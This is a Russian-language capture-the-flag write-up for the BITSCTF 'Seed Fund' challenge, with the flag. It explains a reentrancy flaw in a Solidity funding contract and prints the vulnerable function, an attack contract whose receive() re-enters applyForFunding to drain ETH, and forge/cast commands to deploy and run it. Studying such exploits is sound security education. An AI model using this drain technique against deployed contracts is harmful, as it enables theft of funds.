 # Seed Fund

Флаг: BITSCTF{Crypt0_M1lli0n4ir3_14e3fd12}

---

Категория: misc
Уровень сложности: Средний
Использованные инструменты: [foundry](https://book.getfoundry.sh/)

Суть задания: дан [смарт-контракт](https://github.com/mtchuikov/ctfs/tree/main/2025/BITSkrieg/assets/AngelInvestor.sol), написанный на Solidity. Для получения флага необходимо взломать его, выведя часть средств с баланса.

Примечание: во время соревнования для каждого пользователя контракт развертывался в отдельной тестовой сети со стартовым балансом в 500 ETH. Участнику выдавался заранее сгенерированный кошелек с небольшой суммой ETH. 

---
Решение:

В предложенном для взлома контракте есть функция `isChallSolved`, которая определяет условия, при наличии которых задание считается выполненным. В данном случае нам нужно сделать так, чтобы баланс адреса, вызывающего ее, был больше чем значение переменной контракта `CHALLENGE_THRESHOLD`, равное 100 ETH. Добиться желаемого результата можно только взломав его, ведь наш стартовый баланс небольшой и нет других путей его увеличить.

Анализ кода показал наличие нескольких функций, которые способны передавать баланс от аккаунта контракта к пользователю: `applyForFunding` и `buyCompany`. Однако изучать вторую из них более детально не имеет смысла, поскольку ее вызовы ограничены модификатором `onlyInvestor`, аналогичным по функционалу с модификатором [onlyOwner](https://docs.openzeppelin.com/contracts/5.x/api/access#Ownable-onlyOwner--) , разрешающим взаимодействие с ней только, по-сути, владельцу контракт.

```
    ...
    modifier onlyInvestor() {
        require(msg.sender == investor, "Only investor can perform this");
        _;
    }

    constructor() payable {
        investor = msg.sender;
        totalFunds = address(this).balance;
    }
    ...
```

Однако первая функция, `applyForFunding`, действительно, содержит уязвимость. Как можно заметить, изменения состояния переменной `hasReceivedFunding`, обозначающей то, что средства уже переводились пользователю, происходит только после самого перевода средств.

```
    ...
    function applyForFunding(uint256 equityOffered) external {
        require(equityOffered > 0 && equityOffered <= 7, "Equity offered must be between 1% and 7%");
        // защита от многократного перевода ETH
        require(!startups[msg.sender].hasReceivedFunding, "Already funded");

        uint256 fundingAmount = equityOffered * 3 ether;
        require(fundingAmount <= 21 ether, "Cannot exceed 21 ETH funding");
        require(totalFunds >= fundingAmount, "Not enough funds available");

        // перевод средств пользователю
        (bool success,) = msg.sender.call{value: fundingAmount}("");
        require(success, "Funding transfer failed");

        totalFunds -= fundingAmount;
        startups[msg.sender].fundingAmount += fundingAmount;
        startups[msg.sender].equityOffered = equityOffered;
        // устанавливаем значение переменной, показывающее, что ETH уже переводился
        startups[msg.sender].hasReceivedFunding = true;
    }
    ...
```

Такое поведение - перевод ETH на любой аккаунт, включая принадлежащий смарт-контракту, а также изменение состояния только после перевода - явно указывает на наличие уязвимости, известной как [Reentrancy](https://docs.soliditylang.org/en/latest/security-considerations.html), которая заключается в непредусмотренном логикой программы повторном вызове функции до того, как интеракция полностью завершиться. Схематично она может быть представлена следующим образом:

![reentrancy schema](https://github.com/mtchuikov/ctfs/tree/main/2025/BITSkrieg/assets/reentrancy.png)

В нашем случае атака реализуется весьма тривиально (полный код [контракта](https://github.com/mtchuikov/ctfs/tree/main/2025/BITSkrieg/assets/AngelInvestorAttack.sol)):

```
    ...
    function attack() external onlyOwner {
        target.applyForFunding(7);
        // ETH поступает на аккаунт контракта, поэтому нужно вызвать эту функцию из него.
        // В противном случае удовлетворить ее условиям не получится.
        target.isChallSolved();
    }

    receive() external payable {
        // Задаем условия выхода из цикла вызовов. Если этого не сделать, то функция будет
        // вызывать бесконечно до тех пор, пока не завершится с ошибкой.
        if (address(this).balance < target.CHALLENGE_THRESHOLD()) {
            target.applyForFunding(7);
        }
    }
    ...
``` 

Остается только развернуть контракт при помощи утилиты из набора [foundry](https://book.getfoundry.sh/) `forge create --rpc-url SET_RPC_URL --private-key SET_PRIVATE_KEY --constructor-args SET_TARGET_CONTRACT --broadcast SET_PATH_TO_REENTRANCY_CONTRACT:Reentrancy ` и выполнить вызов функции `attack` для начала атаки `cast send SET_REENTRANCY_CONTRACT "attack()" --private-key SET_PRIVATE_KEY --rpc-url RPC_URL`.

